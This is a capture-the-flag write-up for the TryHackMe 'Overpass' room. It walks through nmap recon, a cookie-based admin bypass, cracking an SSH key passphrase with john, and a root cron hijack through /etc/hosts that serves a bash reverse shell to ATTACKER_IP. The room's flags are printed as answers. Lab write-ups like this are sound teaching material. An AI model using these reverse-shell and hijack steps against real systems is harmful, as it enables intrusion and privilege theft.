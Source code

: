 ## Index

1. [Setup](#setup)
2. [Reconnaissance](#reconnaissance)
3. [Gaining Access](#gaining-access)
4. [Privilege Escalation](#privilege-escalation)

## Setup 

We first need to connect to the tryhackme VPN server. You can get more information regarding this by visiting the [Access](https://tryhackme.com/access) page.

I'll be using openvpn to connect to the server. Here's the command:

```
$ sudo openvpn --config NovusEdge.ovpn
```

## Reconnaissance

Starting off with some `nmap` scans:
```shell-session
$ sudo nmap -sV -vv --top-ports 2000 -oN nmap_scan.txt TARGET_IP
...

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

# Vuln script scan:
$ sudo nmap -sC -vv --script=vuln -p22,80 -oN nmap_vulnscan.txt TARGET_IP
...
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       http://ha.ckers.org/slowloris/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-passwd: ERROR: Script execution failed (use -d to debug)
|_http-litespeed-sourcecode-download: Request with null byte did not work. This web server might not be vulnerable
| http-enum: 
|   /admin.html: Possible admin folder
|   /css/: Potentially interesting folder
|   /downloads/: Potentially interesting folder
|_  /img/: Potentially interesting folder
| http-jsonp-detection: 
| The following JSONP endpoints were detected: 
|_/main.js
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-wordpress-users: [Error] Wordpress installation was not found. We couldn't find wp-login.php
```

Nothing interesting in the results from the `vuln` script. Visiting the `/downloads/` page for the target, we're presented with some download options, one of which allows us to download the source code for the password manager. The source code gives us the following information:

1. The password manager encrypts it's passwords using `ROT47`.
2. The program stores all the passwords on the machine rather than a remote server.

This aside, we can probably try to brute force the `/admin/` login page, but that's a waste of time. Inspecting the `/admin/` page shows that it uses 3 files: `main.js`, `cookie.js` and  `login.js`. Upon further inspection of `login.js` we come across the `login()` function:

```js
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
}
```

The function's logic dictates that if the credentials supplied are valid, it sets the `SessionToken` cookie. We can exploit this behavior (given that the server doesn't validate the cookie) by editing the cookie. Once we set the `SessionToken` cookie to some random stuff, we're taken to the following page:
![](admin_success.png)

We now have a ssh private key as well as a username to go with (`james`). We can use `ssh` to log into the machine as James.

## Gaining Access

The ssh key given also requires a passphrase, we'll try to bruteforce it using `ssh2john`:
```shell-session
$ ssh2john sshkey.rsa > sshkey.hash
$ john --wordlist=/usr/share/wordlists/rockyou.txt ./sshkey.hash
...
james13          (sshkey.rsa)
```

With this passphrase, we can now `ssh` into the machine as james:
```shell-session
$ ssh -i sshkey.rsa james@TARGET_IP
Enter passphrase for key 'sshkey.rsa':
...

james@overpass-prod:~$ ls
todo.txt  user.txt
james@overpass-prod:~$ cat user.txt 
thm{65c1aaf000506e56996822c6281e6bf7}
```

And thus, we have the user flag!
>  Hack the machine and get the flag in user.txt 
> 
> Answer: `thm{65c1aaf000506e56996822c6281e6bf7}`

## Privilege Escalation

With access to the machine as james, we can move onto getting root privileges. Let's have a look at the `todo.txt` file in James' home directory:
```shell-session
james@overpass-prod:~$ cat todo.txt 
To Do:
> Update Overpass' Encryption, Muirland has been complaining that it's not strong enough
> Write down my password somewhere on a sticky note so that I don't forget it.
  Wait, we make a password manager. Why don't I just use that?
> Test Overpass for macOS, it builds fine but I'm not sure it actually works
> Ask Paradox how he got the automated build script working and where the builds go.
  They're not updating on the website
```

For the getting root privileges, we can make use of the convenient `LinPeas` script:
```shell-session
james@overpass-prod:~$ curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
...
...

* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
```

There's a `cron` job that runs as root. Unfortunately we cannot edit this script with the current user's privileges. We can, however, redirect the domain `overpass.thm` to something else and hijack the process from there:
```shell-session
127.0.0.1 localhost
127.0.1.1 overpass-prod
ATTACKER_IP overpass.thm
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

Editing the `/etc/hosts` file and redirecting the overpass.thm domain to our own machine, we can make the cron job download a custom script (a reverse shell in this case) and execute it as root. 
```shell-session
# On our machine:
$ mkdir -p downloads/src 
$ cd downloads/src
$ echo "bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1" > buildscript.sh
$ chmod +x /downloads/src/buildscript.sh
$ python3 -m http.server 80 

# In a different teminal session:
$ nc -nvlp 4444
root@overpass-prod:~# whoami
root

root@overpass-prod:~# ls
buildStatus
builds
go
root.txt
src

root@overpass-prod:~# cat root.txt
thm{7f336f8c359dbac18d54fdd64ea753bb}
```

> Escalate your privileges and get the flag in root.txt
> 
> Answer: `thm{7f336f8c359dbac18d54fdd64ea753bb}`

## Conclusion

If this writeup helps, please consider following me on github (https://github.com/NovusEdge) and/or dropping a star on the repository: https://github.com/NovusEdge/thm-writeups

---

- Author: Aliasgar Khimani
- Room: [Overpass](https://tryhackme.com/room/overpass)
